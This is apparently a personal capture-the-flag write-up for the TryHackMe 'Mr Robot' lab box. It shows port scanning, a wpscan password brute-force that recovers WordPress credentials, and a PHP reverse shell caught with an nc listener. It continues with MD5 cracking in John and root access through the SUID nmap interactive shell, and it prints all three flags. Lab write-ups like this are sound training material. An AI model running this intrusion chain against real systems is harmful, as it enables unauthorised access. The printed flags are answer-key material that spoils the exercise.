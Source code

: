 # Box Name
Mr Robot
---

## Overview
---
* [[#Enumeration]]
	* rustscan, feroxbuster

* [[#Initial Foothold]]
	* wpscan

* [[#Privilege Escalation]]
	* [[gtfobins]]

---
## Enumeration
---
### nmap

```bash
┌──(kn1ght㉿Kali)-[~/THM/mrrobot]
└─$ rustscan -r 1-65535 -a 10.10.47.245 --ulimit 5000 -- -sCV -oN nmap/all_ports
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/scott/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.47.245:80
Open 10.10.47.245:443
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT    STATE SERVICE  REASON  VERSION
80/tcp  open  http     syn-ack Apache httpd
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache
443/tcp open  ssl/http syn-ack Apache httpd
|_http-title: 400 Bad Request
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
|_http-server-header: Apache

```
### ferox

```bash

```
 - ### robots.txt
 
![[Pasted image 20220522152640.png]]

 - ### downloaded fsocity.dic and key-1-of-3.txt
	 - key 1 
		 - ``` 073403c8a58a1f80d943455fb30724b9 ```
 - ### used wpscan with fsocity.dic to find user:password
	 - found
```bash
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - elliot / ER28-0652                                                                                                                                                                                                             
Trying elliot / ER28-0652 Time: 00:00:12 <================================================================                                                                                              > (100 / 242) 41.32%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652

```
---

## Initial Foothold
---
### Word Press 404.php exploit
 - uploaded the pentestmonkey php shell
	received connection on nc listener

```bash
		                                                         
┌──(kn1ght㉿Kali)-[~/THM/mrrobot]
└─$ nc -lnvp 1234                      
listening on [any] 1234 ...
connect to [10.13.13.55] from (UNKNOWN) [10.10.23.106] 47721
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 23:30:10 up 47 min,  0 users,  load average: 0.92, 0.78, 0.50
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

 - Stabilized shell with python
 
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ ^Z
zsh: suspended  nc -lnvp 1234
                                                                                                                                                                                                                                           
┌──(kn1ght㉿Kali)-[~/THM/mrrobot]
└─$ stty raw -echo; fg     
[1]  + continued  nc -lnvp 1234

daemon@linux:/$ export TERM=xterm
daemon@linux:/$ 
```

 - found an interesting file in robot's home folder
 ```bash
 daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

 ```

 - cat password.raw-md5
```bash
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

copied password.raw-md5 to robot.hash on local machine
used JTR to crack the password
```bash
┌──(kn1ght㉿Kali)-[~/THM/mrrobot]
└─$ john --format=raw-md5 --wordlist=/home/scott/rockyou.txt robot.hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2022-05-22 18:48) 2.941g/s 119152p/s 119152c/s 119152C/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

```

used password to su to robot
```bash
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$
```

 - key-2-of-3.txt
	 - 822c73956184f694993bede3eb39f959

---
## Privilege Escalation

- [[GTFObins]]
	- searched for files with suid bit set found
```bash
robot@linux:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap <--
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$ 

```

```bash
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh

# cd /root

# ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 

```

----


